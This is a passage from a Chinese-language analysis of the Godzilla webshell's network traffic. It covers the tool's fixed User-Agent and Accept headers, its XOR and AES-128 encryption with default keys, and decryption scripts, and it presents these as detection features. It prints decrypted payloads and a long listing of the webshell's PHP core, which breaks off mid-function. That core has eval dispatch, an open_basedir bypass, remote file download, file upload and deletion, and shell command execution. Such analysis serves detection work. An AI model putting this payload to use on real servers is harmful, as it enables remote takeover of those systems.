| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```fallback<br>{<br>    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15",<br>    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (iPhone; CPU iPhone OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1",<br>    "Mozilla/5.0 (iPad; CPU OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1",<br>    "Mozilla/5.0 (iPod; CPU iPhone OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1",<br>    "Mozilla/5.0 (Linux; Android 10) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Mobile Safari/537.36",<br>    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.125 Safari/537.36",<br>    "Mozilla/5.0 (iPhone; CPU iPhone OS 13_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) CriOS/84.0.4147.122 Mobile/15E148 Safari/604.1",<br>    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (X11; Linux i686; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0",<br>    "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.1; WOW64; Trident/6.0)",<br>    "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2)",<br>    "Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko",<br>    "Mozilla/5.0 (Windows NT 6.2; Trident/7.0; rv:11.0) like Gecko",<br>    "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"<br>}<br>``` |

#### [](#212-accept--accept-language)2.1.2 Accept && Accept-Language

在 ShellService.java 中发现预先设置的 Accept 和 Accept-Language：



为固定值，同时，如果 webshell 为 php 类型，会设定 Content-Type 值也为一个固定值：`text/html;charset=utf-8`。

在用户未更改默认配置的情况下，上述特征可以作为检测的一个方向。

### [](#22-http-%E8%AF%B7%E6%B1%82%E4%BD%93%E7%89%B9%E5%BE%81)2.2 HTTP 请求体特征

根据 webshell 的内容，可以分为两种解密方式：

1.  当目标服务器未开启 openssl 时，采用异或的方式加密
2.  当目标服务器开启 openssl 时，采用 AES-128 方式加密

解密脚本：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```php<br><?php<br>$key="e45e329feb5d925b";<br>$post = "待解密的内容";<br>$post = openssl_decrypt($post, "AES128", $key);<br>echo $post;<br>?><br>``` |

连接 shell 时的第一条数据包：



解密出连接 shell 时的第一条数据：



进一步 base64 解密得到传输的内容：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>``` | ```php<br><?php<br>@error_reporting(0);<br>function main($content)<br>{<br>	$result = array();<br>	$result["status"] = base64_encode("success");<br>    $result["msg"] = base64_encode($content);<br>    $key = $_SESSION['k'];<br>    echo encrypt(json_encode($result),$key);<br>}<br><br>function encrypt($data,$key)<br>{<br>	if(!extension_loaded('openssl'))<br>    	{<br>    		for($i=0;$i<strlen($data);$i++) {<br>    			 $data[$i] = $data[$i]^$key[$i+1&15]; <br>    			}<br>			return $data;<br>    	}<br>    else<br>    	{<br>    		return openssl_encrypt($data, "AES128", $key);<br>    	}<br>}$content="qing73XL3NTszHHme5YqeWHi79mSMZaUuubbtH7I65qSGoUqfzFvnD2TW";<br>main($content);<br>?><br>``` |

从上述脚本可以分析到，回包也是用 AES-128 进行加密：



第二条数据包：



解密请求：


base64 解密：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>``` | ```php<br><?php<br>error_reporting(0);<br>function main($whatever) {<br>    ob_start(); phpinfo(); $info = ob_get_contents(); ob_end_clean();<br>    $driveList ="";<br>    if (stristr(PHP_OS,"windows")\|stristr(PHP_OS,"winnt"))<br>    {<br>        for($i=65;$i<=90;$i++)<br>    	{<br>    		$drive=chr($i).':/';<br>    		file_exists($drive) ? $driveList=$driveList.$drive.";":'';<br>    	}<br>    }<br>	else<br>	{<br>		$driveList="/";<br>	}<br>    $currentPath=getcwd();<br>    //echo "phpinfo=".$info."\n"."currentPath=".$currentPath."\n"."driveList=".$driveList;<br>    $osInfo=PHP_OS;<br>    $result=array("basicInfo"=>base64_encode($info),"driveList"=>base64_encode($driveList),"currentPath"=>base64_encode($currentPath),"osInfo"=>base64_encode($osInfo));<br>    //echo json_encode($result);<br>    session_start();<br>    $key=$_SESSION['k'];<br>    //echo json_encode($result);<br>    //echo openssl_encrypt(json_encode($result), "AES128", $key);<br>    echo encrypt(json_encode($result), $key);<br>}<br><br>function encrypt($data,$key)<br>{<br>	if(!extension_loaded('openssl'))<br>    	{<br>    		for($i=0;$i<strlen($data);$i++) {<br>    			 $data[$i] = $data[$i]^$key[$i+1&15]; <br>    			}<br>			return $data;<br>    	}<br>    else<br>    	{<br>    		return openssl_encrypt($data, "AES128", $key);<br>    	}<br>}$whatever="yXC5t2ZpMa4Mj6zCgAXVLhQX5TFoNnjDYke36m2uCtHecRRdxqlbd2AudDH33CNWx41ISHqaJb4PfWbWp3CHTGAfUvFl1x5abikyEbCXL9TPQX5Mhuvjv45zhYNMxvb38UtH2BdLpiGpLFMMXqaNkmIVTEAj3opuUN4sE3wKMryeCAvVgDKwoBGf0YAduvy2vvxvQMXEIPTSB1Blp9fcvzMGyM3Qca0FsYwYwyp2wNj7DDDYmJnvmqF547rTfhgH3NnSlpR7rjG1UorFkZPxrITQuuGkz7dV2JuVVFCKtw8VVl8zGjLGyznpu4yHCChEMxE9YszxTWgowBPURYvMuLyf6YIhJBRl86DcJsWKsaGG9OFwA2t5vcTnHdEO5yRUjRjGCk6P3MfnlqpklSjjrf5lgisxjnvFNBerwYSNWZCMQ56xW2vwNqSZ4iEj0Kg1TBMIBRdnCpc46VE6iVLe34bqx6sXhhXzK0KLnbQ8kDAlLXuJAP87XlZPCVB4zp0eStqoVIHYUTIDhkJ4rH06z1JumGfbT21MQj64CH1PBkHvfOTCkkxXQN8EXZerxZ831SeVRGv37PbNu";<br>main($whatever);<br>?><br>``` |

得到具体执行的内容即获取基本信息。

对回包的解密过程同上，最后可以得到一个 JSON 字符串，其中包含相应的信息。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```json<br>{<br>    "basicInfo": "......",<br>    "driveList": "Lw==",<br>    "currentPath": "L2hvbWUvZGFlL3BocA==",<br>    "osInfo": "TGludXg="<br>}<br>``` |

## [](#3-%E5%90%8E%E7%BB%AD%E8%A1%A5%E5%85%85)3 后续补充

Godzilla 更新了 webshell 的逻辑，加密步骤有一点变化：

数据在发送时，经过 `encode` + `base64` 两层加密，解密代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```php<br><?php<br>$pass='pass';<br>$payloadName='payload';<br>$key='3c6e0b8a9c15224a';<br>function encode($D,$K){<br>  for($i=0;$i<strlen($D);$i++) {<br>      $c = $K[$i+1&15];<br>      $D[$i] = $D[$i]^$c;<br>  }<br>  return $D;<br>}<br>$data=encode(base64_decode("",$key));<br>echo $data;<br>?><br>``` |

数据在接收时，除了采用前 16 位和后 16 为的干扰字符外，内容采用 gzip 压缩编码 + 异或 + base64，解密代码如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```php<br><?php<br>function encode($D,$K){<br>    for($i=0;$i<strlen($D);$i++) {<br>        $c = $K[$i+1&15];<br>        $D[$i] = $D[$i]^$c;<br>    }<br>    return $D;<br>}<br>function gzdecode($data)<br>{<br>    return gzinflate(substr($data,10,-8));<br>}<br><br>$pass='pass';<br>$payloadName='payload';<br>$key='3c6e0b8a9c15224a';<br>$data=gzdecode(encode(base64_decode(""),$key));<br>echo $data;<br>?><br>``` |


附：session 中存储的代码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>  1<br>  2<br>  3<br>  4<br>  5<br>  6<br>  7<br>  8<br>  9<br> 10<br> 11<br> 12<br> 13<br> 14<br> 15<br> 16<br> 17<br> 18<br> 19<br> 20<br> 21<br> 22<br> 23<br> 24<br> 25<br> 26<br> 27<br> 28<br> 29<br> 30<br> 31<br> 32<br> 33<br> 34<br> 35<br> 36<br> 37<br> 38<br> 39<br> 40<br> 41<br> 42<br> 43<br> 44<br> 45<br> 46<br> 47<br> 48<br> 49<br> 50<br> 51<br> 52<br> 53<br> 54<br> 55<br> 56<br> 57<br> 58<br> 59<br> 60<br> 61<br> 62<br> 63<br> 64<br> 65<br> 66<br> 67<br> 68<br> 69<br> 70<br> 71<br> 72<br> 73<br> 74<br> 75<br> 76<br> 77<br> 78<br> 79<br> 80<br> 81<br> 82<br> 83<br> 84<br> 85<br> 86<br> 87<br> 88<br> 89<br> 90<br> 91<br> 92<br> 93<br> 94<br> 95<br> 96<br> 97<br> 98<br> 99<br>100<br>101<br>102<br>103<br>104<br>105<br>106<br>107<br>108<br>109<br>110<br>111<br>112<br>113<br>114<br>115<br>116<br>117<br>118<br>119<br>120<br>121<br>122<br>123<br>124<br>125<br>126<br>127<br>128<br>129<br>130<br>131<br>132<br>133<br>134<br>135<br>136<br>137<br>138<br>139<br>140<br>141<br>142<br>143<br>144<br>145<br>146<br>147<br>148<br>149<br>150<br>151<br>152<br>153<br>154<br>155<br>156<br>157<br>158<br>159<br>160<br>161<br>162<br>163<br>164<br>165<br>166<br>167<br>168<br>169<br>170<br>171<br>172<br>173<br>174<br>175<br>176<br>177<br>178<br>179<br>180<br>181<br>182<br>183<br>184<br>185<br>186<br>187<br>188<br>189<br>190<br>191<br>192<br>193<br>194<br>195<br>196<br>197<br>198<br>199<br>200<br>201<br>202<br>203<br>204<br>205<br>206<br>207<br>208<br>209<br>210<br>211<br>212<br>213<br>214<br>215<br>216<br>217<br>218<br>219<br>220<br>221<br>222<br>223<br>224<br>225<br>226<br>227<br>228<br>229<br>230<br>231<br>232<br>233<br>234<br>235<br>236<br>237<br>238<br>239<br>240<br>241<br>242<br>243<br>244<br>245<br>246<br>247<br>248<br>249<br>250<br>251<br>252<br>253<br>254<br>255<br>256<br>257<br>258<br>259<br>260<br>261<br>262<br>263<br>264<br>265<br>266<br>267<br>268<br>269<br>270<br>271<br>272<br>273<br>274<br>275<br>276<br>277<br>278<br>279<br>280<br>281<br>282<br>283<br>284<br>285<br>286<br>287<br>288<br>289<br>290<br>291<br>292<br>293<br>294<br>295<br>296<br>297<br>298<br>299<br>300<br>301<br>302<br>303<br>304<br>305<br>306<br>307<br>308<br>309<br>310<br>311<br>312<br>313<br>314<br>315<br>316<br>317<br>318<br>319<br>320<br>321<br>322<br>323<br>324<br>325<br>326<br>327<br>328<br>329<br>330<br>331<br>332<br>333<br>334<br>335<br>336<br>337<br>338<br>339<br>340<br>341<br>342<br>343<br>344<br>345<br>346<br>347<br>348<br>349<br>350<br>351<br>352<br>353<br>354<br>355<br>356<br>357<br>358<br>359<br>360<br>361<br>362<br>363<br>364<br>365<br>366<br>367<br>368<br>369<br>370<br>371<br>372<br>373<br>374<br>375<br>376<br>377<br>378<br>379<br>380<br>381<br>382<br>383<br>384<br>385<br>386<br>387<br>388<br>389<br>390<br>391<br>392<br>393<br>394<br>395<br>396<br>397<br>398<br>399<br>400<br>401<br>402<br>403<br>404<br>405<br>406<br>407<br>408<br>409<br>410<br>411<br>412<br>413<br>414<br>415<br>416<br>417<br>418<br>419<br>420<br>421<br>422<br>423<br>424<br>425<br>426<br>427<br>428<br>429<br>430<br>431<br>432<br>433<br>434<br>435<br>436<br>437<br>438<br>439<br>440<br>441<br>442<br>443<br>444<br>445<br>446<br>447<br>448<br>449<br>450<br>451<br>452<br>453<br>454<br>455<br>456<br>457<br>458<br>459<br>460<br>461<br>462<br>463<br>464<br>465<br>466<br>467<br>468<br>469<br>470<br>471<br>472<br>473<br>474<br>475<br>476<br>477<br>478<br>479<br>480<br>481<br>482<br>483<br>484<br>485<br>486<br>487<br>488<br>489<br>490<br>491<br>492<br>493<br>494<br>495<br>496<br>497<br>498<br>499<br>500<br>501<br>502<br>503<br>504<br>505<br>506<br>507<br>508<br>509<br>510<br>511<br>512<br>513<br>514<br>515<br>516<br>517<br>518<br>519<br>520<br>521<br>522<br>523<br>524<br>525<br>526<br>527<br>528<br>529<br>530<br>531<br>532<br>533<br>534<br>535<br>536<br>537<br>538<br>539<br>540<br>541<br>542<br>543<br>544<br>545<br>546<br>547<br>548<br>549<br>550<br>551<br>552<br>553<br>554<br>555<br>556<br>557<br>558<br>559<br>560<br>561<br>562<br>563<br>564<br>565<br>566<br>567<br>568<br>569<br>570<br>571<br>572<br>573<br>574<br>575<br>576<br>577<br>578<br>579<br>580<br>581<br>582<br>583<br>584<br>585<br>586<br>587<br>588<br>589<br>590<br>591<br>592<br>593<br>594<br>595<br>596<br>597<br>598<br>599<br>600<br>601<br>602<br>603<br>604<br>605<br>606<br>607<br>608<br>609<br>610<br>611<br>612<br>613<br>614<br>615<br>616<br>617<br>618<br>619<br>620<br>621<br>622<br>623<br>624<br>625<br>626<br>627<br>628<br>629<br>630<br>631<br>632<br>633<br>634<br>635<br>636<br>637<br>638<br>639<br>640<br>641<br>642<br>643<br>644<br>645<br>646<br>647<br>648<br>649<br>650<br>651<br>652<br>653<br>654<br>655<br>656<br>657<br>658<br>659<br>660<br>661<br>662<br>663<br>664<br>665<br>666<br>667<br>668<br>669<br>670<br>671<br>672<br>673<br>674<br>675<br>676<br>677<br>678<br>679<br>680<br>681<br>682<br>683<br>684<br>685<br>686<br>687<br>688<br>689<br>690<br>691<br>692<br>693<br>694<br>695<br>696<br>697<br>698<br>699<br>700<br>701<br>702<br>703<br>704<br>705<br>706<br>707<br>708<br>709<br>710<br>711<br>712<br>713<br>714<br>715<br>716<br>717<br>718<br>719<br>720<br>721<br>722<br>723<br>724<br>725<br>726<br>727<br>728<br>``` | ```php<br><?php<br>$parameters=array();<br>$_SES=array();<br>function run($pms){<br>    reDefSystemFunc();<br>    $_SES=&getSession();<br>    @session_start();<br>    $sessioId=md5(session_id());<br>    if (isset($_SESSION[$sessioId])){<br>        $_SES=unserialize((S1MiwYYr(base64Decode($_SESSION[$sessioId],$sessioId),$sessioId)));<br>    }<br>    @session_write_close();<br><br>    if (canCallGzipDecode()==1&&@isGzipStream($pms)){<br>        $pms=gzdecode($pms);<br>    }<br>    formatParameter($pms);<br><br>    if (isset($_SES["bypass_open_basedir"])&&$_SES["bypass_open_basedir"]==true){<br>        @bypass_open_basedir();<br>    }<br><br>    $result=evalFunc();<br><br>    if ($_SES!==null){<br>        session_start();<br>        $_SESSION[$sessioId]=base64_encode(S1MiwYYr(serialize($_SES),$sessioId));<br>        @session_write_close();<br>    }<br><br>    if (canCallGzipEncode()){<br>        $result=gzencode($result,6);<br>    }<br><br>    return $result;<br>}<br>function S1MiwYYr($D,$K){<br>    for($i=0;$i<strlen($D);$i++) {<br>        $D[$i] = $D[$i]^$K[($i+1)%15];<br>    }<br>    return $D;<br>}<br>function reDefSystemFunc(){<br>    if (!function_exists("file_get_contents")) {<br>        function file_get_contents($file) {<br>            $f = @fopen($file,"rb");<br>            $contents = false;<br>            if ($f) {<br>                do { $contents .= fgets($f); } while (!feof($f));<br>            }<br>            fclose($f);<br>            return $contents;<br>        }<br>    }<br>    if (!function_exists('gzdecode')&&function_existsEx("gzinflate")) {<br>        function gzdecode($data)<br>        {<br>            return gzinflate(substr($data,10,-8));<br>        }<br>    }<br>}<br>function &getSession(){<br>    global $_SES;<br>    return $_SES;<br>}<br>function bypass_open_basedir(){<br>    @$_FILENAME = @dirname($_SERVER['SCRIPT_FILENAME']);<br>    $allFiles = @scandir($_FILENAME);<br>    $cdStatus=false;<br>    if ($allFiles!=null){<br>        foreach ($allFiles as $fileName) {<br>            if ($fileName!="."&&$fileName!=".."){<br>                if (@is_dir($fileName)){<br>                    if (@chdir($fileName)===true){<br>                        $cdStatus=true;<br>                        break;<br>                    }<br>                }<br>            }<br><br>        }<br>    }<br>    if(!@file_exists('bypass_open_basedir')&&!$cdStatus){<br>        @mkdir('bypass_open_basedir');<br>    }<br>    if (!$cdStatus){<br>        @chdir('bypass_open_basedir');<br>    }<br>    @ini_set('open_basedir','..');<br>    @$_FILENAME = @dirname($_SERVER['SCRIPT_FILENAME']);<br>    @$_path = str_replace("\\",'/',$_FILENAME);<br>    @$_num = substr_count($_path,'/') + 1;<br>    $_i = 0;<br>    while($_i < $_num){<br>        @chdir('..');<br>        $_i++;<br>    }<br>    @ini_set('open_basedir','/');<br>    if (!$cdStatus){<br>        @rmdir($_FILENAME.'/'.'bypass_open_basedir');<br>    }<br>}<br>function formatParameter($pms){<br>    global $parameters;<br>    $index=0;<br>    $key=null;<br>    while (true){<br>        $q=$pms[$index];<br>        if (ord($q)==0x02){<br>            $len=bytesToInteger(getBytes(substr($pms,$index+1,4)),0);<br>            $index+=4;<br>            $value=substr($pms,$index+1,$len);<br>            $index+=$len;<br>            $parameters[$key]=$value;<br>            $key=null;<br>        }else{<br>            $key.=$q;<br>        }<br>        $index++;<br>        if ($index>strlen($pms)-1){<br>            break;<br>        }<br>    }<br>}<br>function evalFunc(){<br>    try{<br>        @session_write_close();<br>        $className=get("codeName");<br>        $methodName=get("methodName");<br>        $_SES=&getSession();<br>        if ($methodName!=null){<br>            if (strlen(trim($className))>0){<br>                if ($methodName=="includeCode"){<br>                    return includeCode();<br>                }else{<br>                    if (isset($_SES[$className])){<br>                        return eval($_SES[$className]);<br>                    }else{<br>                        return "{$className} no load";<br>                    }<br>                }<br>            }else{<br>                if (function_exists($methodName)){<br>                    return $methodName();<br>                }else{<br>                    return "function {$methodName} not exist";<br>                }<br>            }<br>        }else{<br>            return "methodName Is Null";<br>        }<br>    }catch (Exception $e){<br>        return "ERROR://".$e -> getMessage();<br>    }<br><br>}<br>function deleteDir($p){<br>    $m=@dir($p);<br>    while(@$f=$m->read()){<br>        $pf=$p."/".$f;<br>        @chmod($pf,0777);<br>        if((is_dir($pf))&&($f!=".")&&($f!="..")){<br>            deleteDir($pf);<br>            @rmdir($pf);<br>        }else if (is_file($pf)&&($f!=".")&&($f!="..")){<br>            @unlink($pf);<br>        }<br>    }<br>    $m->close();<br>    @chmod($p,0777);<br>    return @rmdir($p);<br>}<br>function deleteFile(){<br>    $F=get("fileName");<br>    if(is_dir($F)){<br>        return deleteDir($F)?"ok":"fail";<br>    }else{<br>        return (file_exists($F)?@unlink($F)?"ok":"fail":"fail");<br>    }<br>}<br>function setFileAttr(){<br>    $type = get("type");<br>    $attr = get("attr");<br>    $fileName = get("fileName");<br>    $ret = "Null";<br>    if ($type!=null&&$attr!=null&&$fileName!=null) {<br>        if ($type=="fileBasicAttr"){<br>            if (@chmod($fileName,convertFilePermissions($attr))){<br>                return "ok";<br>            }else{<br>                return "fail";<br>            }<br>        }else if ($type=="fileTimeAttr"){<br>            if (@touch($fileName,$attr)){<br>                return "ok";<br>            }else{<br>                return "fail";<br>            }<br>        }else{<br>            return "no ExcuteType";<br>        }<br>    }else{<br>        $ret="type or attr or fileName is null";<br>    }<br>    return $ret;<br>}<br>function fileRemoteDown(){<br>    $url=get("url");<br>    $saveFile=get("saveFile");<br>    if ($url!=null&&$saveFile!=null) {<br>        $data=@file_get_contents($url);<br>        if ($data!==false){<br>            if (@file_put_contents($saveFile,$data)!==false){<br>                @chmod($saveFile,0777);<br>                return "ok";<br>            }else{<br>                return "write fail";<br>            }<br>        }else{<br>            return "read fail";<br>        }<br>    }else{<br>        return "url or saveFile is null";<br>    }<br>}<br>function copyFile(){<br>    $srcFileName=get("srcFileName");<br>    $destFileName=get("destFileName");<br>    if (@is_file($srcFileName)){<br>        if (copy($srcFileName,$destFileName)){<br>            return "ok";<br>        }else{<br>            return "fail";<br>        }<br>    }else{<br>        return "The target does not exist or is not a file";<br>    }<br>}<br>function moveFile(){<br>    $srcFileName=get("srcFileName");<br>    $destFileName=get("destFileName");<br>    if (rename($srcFileName,$destFileName)){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br><br>}<br>function getBasicsInfo()<br>{<br>    $data = array();<br>    $data['OsInfo'] = @php_uname();<br>    $data['CurrentUser'] = @get_current_user();<br>    $data['CurrentUser'] = strlen(trim($data['CurrentUser'])) > 0 ? $data['CurrentUser'] : 'NULL';<br>    $data['REMOTE_ADDR'] = @$_SERVER['REMOTE_ADDR'];<br>    $data['REMOTE_PORT'] = @$_SERVER['REMOTE_PORT'];<br>    $data['HTTP_X_FORWARDED_FOR'] = @$_SERVER['HTTP_X_FORWARDED_FOR'];<br>    $data['HTTP_CLIENT_IP'] = @$_SERVER['HTTP_CLIENT_IP'];<br>    $data['SERVER_ADDR'] = @$_SERVER['SERVER_ADDR'];<br>    $data['SERVER_NAME'] = @$_SERVER['SERVER_NAME'];<br>    $data['SERVER_PORT'] = @$_SERVER['SERVER_PORT'];<br>    $data['disable_functions'] = @ini_get('disable_functions');<br>    $data['disable_functions'] = strlen(trim($data['disable_functions'])) > 0 ? $data['disable_functions'] : @get_cfg_var('disable_functions');<br>    $data['Open_basedir'] = @ini_get('open_basedir');<br>    $data['timezone'] = @ini_get('date.timezone');<br>    $data['encode'] = @ini_get('exif.encode_unicode');<br>    $data['extension_dir'] = @ini_get('extension_dir');<br>    $data['sys_get_temp_dir'] = @sys_get_temp_dir();<br>    $data['include_path'] = @ini_get('include_path');<br>    $data['DOCUMENT_ROOT'] = $_SERVER['DOCUMENT_ROOT'];<br>    $data['PHP_SAPI'] = PHP_SAPI;<br>    $data['PHP_VERSION'] = PHP_VERSION;<br>    $data['PHP_INT_SIZE'] = PHP_INT_SIZE;<br>    $data['canCallGzipDecode'] = canCallGzipDecode();<br>    $data['canCallGzipEncode'] = canCallGzipEncode();<br>    $data['session_name'] = @ini_get("session.name");<br>    $data['session_save_path'] = @ini_get("session.save_path");<br>    $data['session_save_handler'] = @ini_get("session.save_handler");<br>    $data['session_serialize_handler'] = @ini_get("session.serialize_handler");<br>    $data['user_ini_filename'] = @ini_get("user_ini.filename");<br>    $data['memory_limit'] = @ini_get('memory_limit');<br>    $data['upload_max_filesize'] = @ini_get('upload_max_filesize');<br>    $data['post_max_size'] = @ini_get('post_max_size');<br>    $data['max_execution_time'] = @ini_get('max_execution_time');<br>    $data['max_input_time'] = @ini_get('max_input_time');<br>    $data['default_socket_timeout'] = @ini_get('default_socket_timeout');<br>    $data['mygid'] = @getmygid();<br>    $data['mypid'] = @getmypid();<br>    $data['SERVER_SOFTWAREypid'] = @$_SERVER['SERVER_SOFTWARE'];<br>    $data['SERVER_PORT'] = @$_SERVER['SERVER_PORT'];<br>    $data['loaded_extensions'] = @implode(',', @get_loaded_extensions());<br>    $data['short_open_tag'] = @get_cfg_var('short_open_tag');<br>    $data['short_open_tag'] = @(int)$data['short_open_tag'] == 1 ? 'true' : 'false';<br>    $data['asp_tags'] = @get_cfg_var('asp_tags');<br>    $data['asp_tags'] = (int)$data['asp_tags'] == 1 ? 'true' : 'false';<br>    $data['safe_mode'] = @get_cfg_var('safe_mode');<br>    $data['safe_mode'] = (int)$data['safe_mode'] == 1 ? 'true' : 'false';<br>    $data['CurrentDir'] = str_replace('\\', '/', @dirname($_SERVER['SCRIPT_FILENAME']));<br>    $SCRIPT_FILENAME=@dirname($_SERVER['SCRIPT_FILENAME']);<br>    $data['FileRoot'] = '';<br>    if (substr($SCRIPT_FILENAME, 0, 1) != '/') {foreach (range('A', 'Z') as $L){ if (@is_dir("{$L}:")){ $data['FileRoot'] .= "{$L}:/;";}};};<br>    $data['FileRoot'] = (strlen(trim($data['FileRoot'])) > 0 ? $data['FileRoot'] : '/');<br>    $data['FileRoot']= substr_count($data['FileRoot'],substr($SCRIPT_FILENAME, 0, 1))<=0?substr($SCRIPT_FILENAME, 0, 1).":/":$data['FileRoot'];<br>    $result="";<br>    foreach($data as $key=>$value){<br>        $result.=$key." : ".$value."\n";<br>    }<br>    return $result;<br>}<br>function getFile(){<br>    $dir=get('dirName');<br>    $dir=(strlen(@trim($dir))>0)?trim($dir):str_replace('\\','/',dirname(__FILE__));<br>    $dir.="/";<br>    $path=$dir;<br>    $allFiles = @scandir($path);<br>    $data="";<br>    if ($allFiles!=null){<br>        $data.="ok";<br>        $data.="\n";<br>        $data.=$path;<br>        $data.="\n";<br>        foreach ($allFiles as $fileName) {<br>            if ($fileName!="."&&$fileName!=".."){<br>                $fullPath = $path.$fileName;<br>                $lineData=array();<br>                array_push($lineData,$fileName);<br>                array_push($lineData,@is_file($fullPath)?"1":"0");<br>                array_push($lineData,date("Y-m-d H:i:s", @filemtime($fullPath)));<br>                array_push($lineData,@filesize($fullPath));<br>                $fr=(@is_readable($fullPath)?"R":"").(@is_writable($fullPath)?"W":"").(@is_executable($fullPath)?"X":"");<br>                array_push($lineData,(strlen($fr)>0?$fr:"F"));<br>                $data.=(implode("\t",$lineData)."\n");<br>            }<br><br>        }<br>    }else{<br>        return "Path Not Found Or No Permission!";<br>    }<br>    return $data;<br>}<br>function readFileContent(){<br>    $fileName=get("fileName");<br>    if (@is_file($fileName)){<br>        if (@is_readable($fileName)){<br>            return file_get_contents($fileName);<br>        }else{<br>            return "No Permission!";<br>        }<br>    }else{<br>        return "File Not Found";<br>    }<br>}<br>function uploadFile(){<br>    $fileName=get("fileName");<br>    $fileValue=get("fileValue");<br>    if (@file_put_contents($fileName,$fileValue)!==false){<br>        @chmod($fileName,0777);<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br>function newDir(){<br>    $dir=get("dirName");<br>    if (@mkdir($dir,0777,true)!==false){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br>function newFile(){<br>    $fileName=get("fileName");<br>    if (@file_put_contents($fileName,"")!==false){<br>        return "ok";<br>    }else{<br>        return "fail";<br>    }<br>}<br><br>function function_existsEx($functionName){<br>    $d=explode(",",@ini_get("disable_functions"));<br>    if(empty($d)){<br>        $d=array();<br>    }else{<br>        $d=array_map('trim',array_map('strtolower',$d));<br>    }<br>    return(function_exists($functionName)&&is_callable($functionName)&&!in_array($functionName,$d));<br>}<br><br>function execCommand(){<br>    @ob_start();<br>    $cmdLine=get("cmdLine");<br>    $d=__FILE__;<br>    $cmdLine=substr($d,0,1)=="/"?"-c \"{$cmdLine}\"":"/c \"{$cmdLine}\"";<br>    if(substr($d,0,1)=="/"){<br>        @putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");<br>    }else{<br>        @putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");<br>    }<br>    $executeFile=substr($d,0,1)=="/"?"sh":"cmd";<br><br>    $cmdLine="{$executeFile} {$cmdLine}";<br>    $cmdLine=$cmdLine." 2>&1";<br>    